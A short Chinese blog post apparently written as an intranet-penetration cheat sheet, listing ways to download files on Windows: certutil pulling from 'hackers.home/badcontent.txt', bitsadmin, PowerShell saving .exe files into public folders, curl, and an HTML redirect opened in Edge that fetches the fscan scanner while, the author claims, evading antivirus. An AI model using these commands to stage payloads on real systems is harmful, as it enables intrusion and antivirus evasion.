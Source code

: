```yaml
---
layout:     post
title:      "windows下载方法"
subtitle:   "主要介绍windows的几个常用的下载方法"
date:       2023-01-29 12:00:00
author:     "cainiao3389"
header-img: "img/post-bg-desk.jpg"
catalog: true
tags:
    - 内网
---
```


## certutil

`certutil.exe -urlcache -split -f "https://hackers.home/badcontent.txt" bad.txt`

---

## bitsadmin

`bitsadmin /transfer n http://example.com/file.zip C:\windows\temp\file.zip`

---

## powershell
```cmd
第一种：
powershell (new-object System.Net.WebClient).DownloadFile('http://example.com/file.zip','c:\users\public\music\t.exe‘)

第二种：
powershell Invoke-WebRequest -Uri http://xxxxx/xxxx.exe -OutFile C:/users/public/videos/xxxx.exe
```
---

## curl
`curl -o file.zip http://example.com/file.zip`

---

## html下载（常规操作，杀软根本不拦）

**第一步

要先创建一个test.html，内容如下：
```html
<script>
	window.location.href = "https://github.com/shadow1ng/fscan/releases/download/1.8.2/fscan_darwin_arm64";
</script>
```

**第二步

搜索当前有哪些浏览器，edge，firefox，chrome，ie这几个中ie好像不得行，要实现点击操作。

具体用法如下：
`"C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" C:\Users\admin\Desktop\test.html`

会直接下载到当前用户的download目录
